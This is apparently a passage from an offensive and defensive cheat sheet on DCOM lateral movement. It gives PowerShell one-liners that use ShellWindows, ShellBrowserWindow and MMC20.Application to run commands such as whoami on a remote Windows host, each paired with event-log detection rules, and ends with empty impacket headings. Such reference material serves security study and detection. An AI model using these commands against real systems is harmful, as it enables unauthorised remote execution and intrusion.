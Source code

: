
### <a name='dcom'></a>dcom

🔑 KEYPOINTS :
▶️ PLAY :
```powershell
# dcom shellwindows
ShellWindows:-
$calc = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("calc.exe")

# dcom shellbrowserwindow
$calc2 = [activator]::CreateInstance([type]::GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("cmd.exe", "/c (whoami & hostname & dir c:\) > c:\temp\test.txt", "c:\windows\system32", $null, 7)

# dcom mmc20
$shell = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.x.x.7"))
$shell = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.x.x.7"))
$shell.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c whoami & hostname > c:\temp\test.txt","7")
```

🔎️ DETECT :
```powershell
# DCOM Attack Monitor
Security Event Log / Event ID is any of 4104
and when the event matches Command (custom) contains all of [activator or CreateInstance]
and when the event matches Command (custom) contains any of  [GetTypeFromCLSID or GetTypeFromProgID]
and when the event matches Command (custom) contains any of [9BA05972-F6A8-11CF-A442-00A0C90A8F39 or c08afd90-f2a1-11d1-8455-00a0c91f3880 or 7e0423cd-1119-0928-900c-e6d4a52a0715 or MMC20.Application]

# DCOM Lateral Movement Detection
Security Event Log / Event ID is any of 4104
and when the event matches Command (custom) contains any of [Document.Application.ShellExecute or Document.ActiveView.ExecuteShellCommand]
```

### <a name='impacket'></a>impacket

#### <a name='atexec'></a>atexec
🔑 KEYPOINTS :
#### <a name='dcomexec'></a>dcomexec
🔑 KEYPOINTS :
#### <a name='psexec'></a>psexec
🔑 KEYPOINTS :

* silver tickets : HTTP, HOST (Depending on OS version may also need: WSMAN, RPCSS)
